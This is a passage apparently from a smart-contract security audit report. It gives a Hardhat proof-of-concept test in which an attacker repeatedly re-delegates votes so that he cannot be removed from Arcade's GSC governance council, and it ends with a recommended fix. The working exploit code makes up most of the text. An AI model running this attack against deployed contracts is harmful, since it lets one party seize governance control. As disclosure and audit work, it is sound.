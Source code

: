                 // Bob also becomes GSC member, but when he unstakes his tokens, Alice can kick him out
                await arcadeGSCVault.connect(Bob).proveMembership([NFTBoostVault.address], ["0x"]);
                expect(await arcadeGSCVault.members(Bob.address)).not.to.eq(0);

                await NFTBoostVault.connect(Bob).withdraw(BOBS_BALANCE);
                await arcadeGSCVault.connect(Alice).kick(Bob.address, ["0x"]);
                expect(await arcadeGSCVault.members(Bob.address)).to.eq(0);
                // kicking out Bob succeeds

                // Bob adds tokens again and becomes GSC member, but this time performs the attack
                await TestERC20.connect(Bob).approve(NFTBoostVault.address, BOBS_BALANCE);
                await NFTBoostVault.connect(Bob).delegate(Bob.address);
                await NFTBoostVault.connect(Bob).addTokens(BOBS_BALANCE);
                await arcadeGSCVault.connect(Bob).proveMembership([NFTBoostVault.address], ["0x"]);

                // attack
                // Bob performs it on himself
                var gasUsed = 0;
                for (var i = 0; i < 3500; i++)
                {
                    const tx1 = await NFTBoostVault.connect(Bob).delegate(Alice.address); // needed since it's 
                    // impossible to change current delegatee to the same address
                    const tx2 = await NFTBoostVault.connect(Bob).delegate(Bob.address);
                    const r1 = await tx1.wait();
                    const r2 = await tx2.wait();
                    gasUsed += r1.cumulativeGasUsed.toNumber();
                    gasUsed += r2.cumulativeGasUsed.toNumber();
                }
                console.log(`Gas used by the attacker: ${gasUsed}`);

                // Bob withdraws his tokens
                await NFTBoostVault.connect(Bob).withdraw(BOBS_BALANCE);
                
                // Alice cannot kick out Bob
                await expect(arcadeGSCVault.connect(Alice).kick(Bob.address, ["0x"])).to.be.reverted;

                // Bob is still GSC member; he can now transfer all his tokens to another account and perform
                // the attack again until he controls > 50% of GSC
                expect(await arcadeGSCVault.members(Bob.address)).not.to.eq(0);

            }).timeout(400000);
        });

### Tools Used

VS Code, hardhat

### Recommended Mitigation Steps

Change `BaseVotingVault::queryVotePower` implementation so that it calls `find` instead of `findAndClear` (as in the `queryVotePowerView`).

### Assessed type

DoS
